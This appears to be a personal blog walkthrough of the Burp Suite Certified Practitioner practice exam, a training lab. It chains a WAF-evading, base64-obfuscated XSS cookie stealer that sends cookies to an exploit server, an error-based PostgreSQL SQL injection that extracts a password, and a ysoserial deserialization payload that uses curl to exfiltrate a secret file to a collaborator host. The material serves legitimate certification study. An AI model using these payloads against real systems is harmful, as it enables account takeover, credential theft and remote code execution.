





It's certainly been a while since I wrote one of these. I have gone through a number of places of work, have found some interesting vulnerabilities in both government and private companies, and have continued to work at improving what I do.
A core area I wish I'd been better at when I had a role titled Penetration Tester is Web Application Security. There are many places to learn about this, and many more to perfect your craft. I'll include a list of what I would consider to be great places to look into. For now though I want to focus on the Burp Suite Certified Practitioner (BSCP) certification, specifically around walking through the practice exam and detailing my methodology for going through it.
More information on the BSCP can be found over at Portswigger's website at portswigger.net/web-security/certification . What makes the BSCP such a fantastic certification to work towards is how practical it is. There is no write-up, nor is there a set of theoretical questions. Nay, instead the BCSP works by providing you with a set of vulnerable web applications that have bugs related to the hundreds of labs in their Web Security Academy. Having done over half of the academy myself I feel poised to offer advice on how to run through this practice exam and show my thinking.
We start by firing up the practice exam located at the BSCP practice exam portal (You will need to be logged in, it's free to make an account)
Once here, we will move onto starting the exam and dropping into the application.
Now there is a number of ways to look at the application initially however a good methodology for initial recon is:
Now that you have done all of those things, you will have noticed the scanner and DOM invader has detected an
unsafe XSS sink with location.search
That's interesting... Well then, after a bit of mangling, and injecting into the searchResultsObj payload, we
notice that
"+alert(1)}// can be used to inject an alert box into the javascript in a reflected XSS attack.
Next we need to find out how to weaponise it with a cookie stealer sent through the Exploit Server to hopefully
exploit a low level user.

We start by trying document.cookie to alert a cookie. We also set a cookie manually in our browser with Dev Tools
to poc this. If your tried "+alert(document.cookie)}// you will get "Potentially dangerous
search term". In fact, upon inspecting the input behaviour, you'll notice that a single full stop
character will cause this error. So we will have to find out how to craft an exploit that does not require this
character.
A great resource that will help us here is Portswigger's XXS Cheat Sheet, specifically the WAF
bypass global objects that show off the potential to inject ['doc'+'ument']['dom'+'ain'] or
in our case, ['document']['cookie']. Plugging this into the payload we find
"+alert(this['document']['cookie'])}// to work, producing us a cookie.
Now we need to make this reach out to our exploit server to leak the cookie. We first run the window.location using our method to the exploit server URL, and then append to a URL parameter the cookie to catch this in the logs.
As the URL will most likely have full stops, we will need to be creative with our payload encoding. We can use the eval() and atob() to accomplish this.
Using an online base64 encoder, we convert
window["document"]["location"]="https://exploit-0a3e004e03e5345c809c16c3012800d2.exploit-server.net/e?="+window["document"]["cookie"]
to the base64 equivalent of
d2luZG93WyJkb2N1bWVudCJdWyJsb2NhdGlvbiJdPSJodHRwczovL2V4cGxvaXQtMGEzZTAwNGUwM2U1MzQ1YzgwOWMxNmMzMDEyODAwZDIuZXhwbG9pdC1zZXJ2ZXIubmV0L2U/PSIrd2luZG93WyJkb2N1bWVudCJdWyJjb29raWUiXQ==
and then we run this through a eval(atob(PAYLOAD)) to get things working, testing this payload out
on us we find it works. With the final payload being
"+eval(atob("d2luZG93WyJkb2N1bWVudCJdWyJsb2NhdGlvbiJdPSJodHRwczovL2V4cGxvaXQtMGEzZTAwNGUwM2U1MzQ1YzgwOWMxNmMzMDEyODAwZDIuZXhwbG9pdC1zZXJ2ZXIubmV0L2U/PSIrd2luZG93WyJkb2N1bWVudCJdWyJjb29raWUiXQ=="))}//
Now we just need to fire this off to the victim with a simple
<script>location=PAYLOAD</script>
Now we add our cookie as this persons and wow, just like that we are now Carlos! We can even view their password by mixing the html up a bit on the My Account page
So now we would go about doing the whole cycle of enumeration again. As time is limited, especially on the exam, we have to be strategic about things. When we are unlocked into the Carlos account, we have a new feature unlocked which is the /advanced_search panel. Due to this, we will perform an active scan of this, showing us that this is vulnerable to SQL injection.
What's more, we even get a bit of output showing how the SQL statement is constructed with the output
Unterminated string literal started at position 33 in SQL SELECT * FROM posts ORDER BY DATE'. Expected
char
Now to exploit this, we run through test inputs with the Portswigger SQL Injection Cheat
Sheet and find that appending ;SELECT+pg_sleep(10) gives us a ten second delay. This
shows that the exploit will most likely be a blind SQLi against PostgreSQL.

With this information we then go through the SQLi Cheat Sheet and look for the applicable vector to help us retrieve information from the database. This could be UNION based, error-based, blind, or even Out-Of-Band using something like the burp collaborator.
In our case, the fact we got error messaging in the error above should be an indicator that we might not be blind, and that we could actually use this. In our case since we know that this is PostgreSQL, and we could test for error-based, the area in the cheat sheet Extracting data via visible error messages was just what we needed. Usually the root account password is the first account in the database, however the fact this is the case here and the fact that the database was called users, and the table was called password was one of luck.
The final payload for this without URL-encoding is ;SELECT CAST((SELECT password FROM users LIMIT 1)
AS int)--
From here, this unlocks only one other piece of functionality on the web application... the Admin panel
Okay so now we have the administrator panel and are introduced to two interesting potential vectors being:
The later one is something that appears to be a lot like deserialisation. We will run this again through a customized scan that expressly forbids the calling of the delete action. We do this by adding a scanning configuration in which only Cookie parameter values are looked at.
Now... we could wait for the scan to complete however an interesting thing to look at is that decoding
the cookie from base64, we get a hexadecimal representation of the first three bytes being 1f 8b
08 which is indicative of a GZip compression. This is building up the case of deserialisation
as the vector.
To begin, we send the following payload with the cookie to the Deserialisation Scanner, and run some manual testing. As we are aware of the gzip, base64, and URL encoding, we set the manual testing with the cookie as an insertion point and working back to front we have:
Running multiple tests, Sleep does nothing however DNS (vuln libraries) detected that this might be potentially be vulnerable to the Apache Commons Collections 3. It should be noted that I also had an issue where I was running Java 17, however this will mess things up past using the scanner and manual, In my case I do the second part in my Windows Subsystem for Linux with generating this manually, gzipping, and base64 encoding. For more information on this please refer to https://forum.portswigger.net/thread/ysoserial-stopped-working-b5a161f42f
Now despite that saying Commons Collections 3, Alternate Payload 3, this is actually CommonsCollection6 in ysoserial (different from Deserialization Scanner). This mess can be attributed to the following git issue https://github.com/federicodotta/Java-Deserialization-Scanner/issues/35
Additionally, due to the issues around the aforementioned issues with the java versions specified, I
utilised piping as shown by the PayloadAllTheThings resource, which I piped out to gzip and base64,
before reattaching in the vulnerable cookie parameter and URL encoding the key characters there. As you
can see the command format is: java -jar ysoserial-all.jar CommonsCollections6 'dig
{BURP_COLLABORATOR_URL}' | gzip | base64 -w 0 with that -w 0 set so it prints
out on a single line to we don't have any Linux Carriage Return, Line Endings (CR/LE) issues.
So at this point we need to leak out the information in /home/carlos/secret which we'd find after enumerating the system with the foothold we now have with Out of Band Code Execution.
Modifying this around until it works , the command piped in being curl --data @/home/carlos/secret
{BURP_COLLABORATOR_URL} worked. And with that, the solution is found, and with that. The
practice exam is completed.